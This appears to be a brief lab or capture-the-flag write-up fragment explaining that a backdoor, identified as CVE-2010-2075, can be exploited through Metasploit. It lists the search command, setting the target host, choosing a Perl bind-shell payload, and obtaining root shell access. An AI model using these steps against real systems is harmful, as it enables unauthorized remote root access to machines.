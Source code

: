 this is also a backdoor which can be exploited using metasploit
the command i did
**search CVE-2010-2075**
set Rhosts and then payload select
i have used the payload **1   payload/cmd/unix/bind_perl**
also works with the ruby one 
you will get the root shell access directly
